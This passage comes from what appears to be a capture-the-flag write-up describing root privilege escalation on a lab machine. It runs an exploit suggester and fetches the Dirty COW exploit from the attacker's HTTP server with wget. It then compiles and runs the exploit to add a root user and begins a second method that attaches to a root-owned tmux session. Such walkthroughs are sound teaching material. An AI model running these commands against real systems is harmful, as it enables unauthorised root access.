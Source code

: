 Run the script.

```text
./linux-exploit-suggester-2.pl
```

We confirm that it is vulnerable to Dirty COW.

![](https://miro.medium.com/max/685/1*lfHXPU0KmXSl9DwXO72y0w.png)

I tried several of the exploits on this [page](https://dirtycow.ninja/) but they didn’t work. Therefore, I ended up using this [exploit](https://github.com/FireFart/dirtycow/blob/master/dirty.c).

Clone the exploit on the attack machine.

```text
git clone https://gist.github.com/e9d4ff65d703a9084e85fa9df083c679.git
```

Start up a server in the directory where the exploit resides.

```text
python -m SimpleHTTPServer 5555
```

Transfer the exploit to the target machine.

```text
wget http://10.10.14.6:5555/dirty.c
```

Compile the file as per the included compile instructions.

```text
gcc -pthread dirty.c -o dirty -lcrypt
```

Run the exploit.

```text
./dirty
```

Choose the password for the newly created user.

![](https://miro.medium.com/max/620/1*wdOtAeCiuFtOwRoxEErCzQ.png)

Change to the newly created user.

```text
su firefart
```

We have root privileges! Grab the root flag.

![](https://miro.medium.com/max/554/1*DyoXBLgZIQZPxj3VN4I_0g.png)

**Privilege Escalation \#2: Attach to Root Owned tmux Session**

In the target machine, attach to the tmux shell using the following command.

```text
tmux -S /.devs/dev_sess
```
